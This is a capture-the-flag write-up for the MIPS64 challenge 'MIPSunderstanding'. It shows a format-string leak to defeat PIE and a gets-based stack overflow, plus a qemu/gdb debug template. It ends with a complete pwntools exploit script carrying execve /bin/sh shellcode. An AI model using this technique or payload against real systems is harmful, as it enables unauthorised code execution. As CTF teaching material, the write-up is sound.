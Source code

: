 ![](https://i.imgur.com/qUtdCzM.png "MIPSunderstanding")

- - -

> # Checksec

- - -

```yaml
    Arch:     mips-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

> # Overview

- - -

Challenge files : [](https://github.com/4n0nym4u5/CTF-Writeups/tree/main/MIPSunderstanding)[MIPSunderstanding](https://github.com/4n0nym4u5/CTF-Writeups/tree/main/MIPSunderstanding)

```yaml
chall: ELF 64-bit LSB pie executable, MIPS, MIPS-III version 1 (SYSV), dynamically linked, with debug_info, not stripped
```

![enter image description here](https://imgur.com/21z6F5S.png)
I dont know mips assembly and i solved it without understanding mips :)) . It's an easy challenge. Lets open the binary in ghidra and analyse the binary. Well there's alot of junk code in it so ill straight up show you the `thiago` and `keita` function.

### keita

![](https://imgur.com/uhEsnyT.png)

### thiago

![](https://imgur.com/jcPHCE5.png)

So there are two bugs here.

1. Format string bug for Information disclosure bug. We control the first parameter passed to printf and we can use this bug to leak the address where the binary is being loaded and bypass ASLR. 
2. A stack buffer overflow bug because of using the gets function to read input.

Now lets dive into exploitation. But the most important part is to setup an debug environment for mips.

> # Setting up the debug environment

- - -

I always use this template given by [X3eRo0](https://twitter.com/X3eRo0) to debug different arch pwn challenges

```python
#!/usr/bin/env python3.9
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfinit

from rootkit import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./chall')
context.arch = 'mips'
context.bits = 64
context.endian = 'little'
context.terminal = ["tilix","-a","session-add-right","-e"]
context.delete_corefiles = True
context.rename_corefiles = False

gdbscript = '''
target remote 0.0.0.0:1324
'''
exploit=b""
if args.GDB:
    io = process(["./qemu-mips64el", "-g", "1324", exe.path])
    if os.fork() == 0:
        a = open("/tmp/gdb.gdb", "w")
        a.write(gdbscript)
        a.close()
        cmd = " ".join(context.terminal) + " gdb-multiarch %s -x /tmp/gdb.gdb" % exe.path
        os.system(cmd)
        os.kill(os.getpid(), 9)

else:
    io=remote("gc1.eng.run", "32113")
io.interactive()
```

so with this `expl.py` you can debug the pwn challenge easily.

![debug-setup](https://imgur.com/arvqUwR.png)
Also one more thing to mention here

```yaml
# pwndbg checksec command outside qemu  
    Arch:     mips-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

```yaml
# gef checksec command inside qemu
gef➤  checksec
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : ✘ 
```

**NX is actually *disabled* inside qemu**. To enable NX the have to patch the qemu binary. Also use gdb-gef instead of pwndbg because pwndbg has alot of issues when it comes to weird architectures.

Lets start to build exploit.

> # Exploit

- - -

1. Use the `keita` function to leak pie address
2. Use the `thiago` function to overflow the stack and return to your shellcode

```python
#!/usr/bin/env python3.9
# -*- coding: utf-8 -*-

from rootkit import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./chall', checksec=False)
context.arch = 'mips'
context.bits = 64
context.endian = 'little'
context.terminal = ["tilix","-a","session-add-right","-e"]
context.delete_corefiles = True
context.rename_corefiles = False

gdbscript = '''
target remote 0.0.0.0:1324
'''
exploit="A"*512
if args.GDB:
    io = process(["./qemu-mips64el", "-g", "1324", exe.path])
    if os.fork() == 0:
        a = open("/tmp/gdb.gdb", "w")
        a.write(gdbscript)
        a.close()
        cmd = " ".join(context.terminal) + " gdb-multiarch %s -x /tmp/gdb.gdb" % exe.path
        os.system(cmd)
        os.kill(os.getpid(), 9)

else:
    io = process(["./qemu-mips64el", exe.path])

reu(b"+---------------------------------------+\n")
reu(b"+---------------------------------------+\n")
sl(b"A")
sleep(5)
reu(b"Enter the price you are willing to offer !!\n")
sl(b"%1$p")
sleep(5)
main=int(GetInt()[0])-0x18240b4
exe.address = main-exe.sym.main
shellcode_addr=exe.address+0x1827d80+0x30
info(f"Pie base : {hex(exe.address)}")
info(f"Shellcode: {hex(shellcode_addr)}")
info(f"Shellcode: {hex(shellcode_addr)}")
sl(b"1")
re()
sl(b"C")
padding=b"A"*32
rop = flat([
    padding,
    0xdeadbeef,
    exe.address+0x1827d80,
])
sleep(5)
re()
shellcode =  b""
shellcode += b"\x62\x69\x0c\x3c"
shellcode += b"\x2f\x2f\x8c\x35"
shellcode += b"\xf4\xff\xac\xaf"
shellcode += b"\x73\x68\x0d\x3c"
shellcode += b"\x6e\x2f\xad\x35"
shellcode += b"\xf8\xff\xad\xaf"
shellcode += b"\xfc\xff\xa0\xaf"
shellcode += b"\xf4\xff\xa4\x67"
shellcode += b"\xff\xff\x05\x28"
shellcode += b"\xff\xff\x06\x28"
shellcode += b"\xc1\x13\x02\x24"
shellcode += b"\x0c\x01\x01\x01"

# https://www.exploit-db.com/exploits/45287

sl(rop + b"\x00\x00\x00\x00"*32 + shellcode) # \x00\x00\x00\x00 is nops in mips64
reu(b"+---------------------------------------+\n")
sleep(5)
io.interactive()
```

[![asciicast](https://asciinema.org/a/461708.svg)](https://asciinema.org/a/461708)

> InCTF{w3_sh4ll_not_b3_m0v3D_132244345}